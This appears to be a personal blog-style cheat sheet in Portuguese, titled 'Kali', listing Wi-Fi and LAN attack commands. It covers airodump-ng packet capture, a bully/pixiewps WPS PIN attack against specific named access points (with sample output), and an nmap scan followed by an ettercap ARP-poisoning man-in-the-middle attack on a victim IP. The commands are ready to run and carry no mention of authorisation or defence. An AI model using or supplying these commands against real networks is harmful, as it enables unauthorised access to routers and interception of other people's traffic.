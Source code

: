 ```yaml
---
title: "Kali"
date: 2019-01-01T00:00:00-03:00
last_modified_at: 2022-06-28T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks

tags:
  - firma
---
```


## Sniffing

```bash
# Vê os pacotes entre roteadores e devices
sudo airdump-ng wlan0mon

# Captura Pacotes
sudo airodump-ng --bssid {mac_address} --channel {channel number} --write {filename}  wlan0mon
sudo airodump-ng --bssid 90:F6:52:F0:C5:B4 --channel 1 --write my_network wlan0mon

# Abre os pacotes no Wireshark
```

<br>

---

## Bully

```bash
# Associação
sudo bully --bssid D8:C6:78:0F:73:14 --essid VIVO-7314 --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
#[!] Received disassociation/deauthentication from the AP
#[+] Rx(  M1  ) = 'EAPFail'   Next pin '20075361'

# Mi 8 Lite
sudo bully --bssid 5E:8F:53:F6:37:D0 --essid "MI 8 Lite" --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
```

## ARP Poison

[How Hackers SNiFF (capture) network traffic // MiTM attack](https://www.youtube.com/watch?v=-rSqbgI7oZM)

```bash
# Scan network looking for devices
sudo nmap -sn 192.168.0.1/24

# Man-in-the-Middle (MiTM) attack
sudo ettercap -T -S -i {interface} -M arp:remote /{ip router}// /{ip vítima}//
sudo ettercap -T -S -i wlan0mon -M arp:remote /192.168.0.1// /192.168.0.110//
#-T	text-only
#-S	no use ssl

# After capture using wireshark
sudo wireshark
```
